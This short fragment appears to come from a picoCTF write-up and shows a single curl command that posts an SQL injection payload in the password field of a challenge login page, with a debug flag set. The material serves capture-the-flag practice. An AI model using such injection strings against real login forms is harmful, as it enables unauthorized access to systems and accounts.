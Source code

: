 **How to send data with curl**
	curl https://jupiter.challenges.picoctf.org/problem/54253/login.php --data "password=' be 'A'='A'--&debug=1"
